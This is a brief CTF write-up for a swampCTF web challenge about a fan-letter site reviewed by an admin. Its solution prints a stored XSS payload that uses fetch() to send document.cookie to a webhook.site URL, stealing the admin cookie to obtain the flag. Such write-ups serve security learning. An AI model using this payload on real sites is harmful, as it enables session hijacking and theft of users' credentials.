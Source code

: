 # Challenge description

Welcome to the glitzy world of Broadway! The hit revival of "Sunset Boulevard" starring Nicole Scherzinger has taken the theater world by storm. As part of the fan engagement team, you've discovered a website where fans can send letters to the star. However, rumors suggest that a hidden admin dashboard contains something valuable - possibly the CTF flag.

# Soluce

When we open the website, we can see a form to send a letter. The website said that an admin will review the letter. We can try to send a letter with an xss injection to get the admin cookie.

```html
<script>
fetch("https://webhook.site/2b96145b-5a94-4c8c-a2b5-ef09464a175d?c=" + document.cookie);
</script>
```

Then we can see the cookie in the webhook: `swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}`.

So the flag is `swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}`.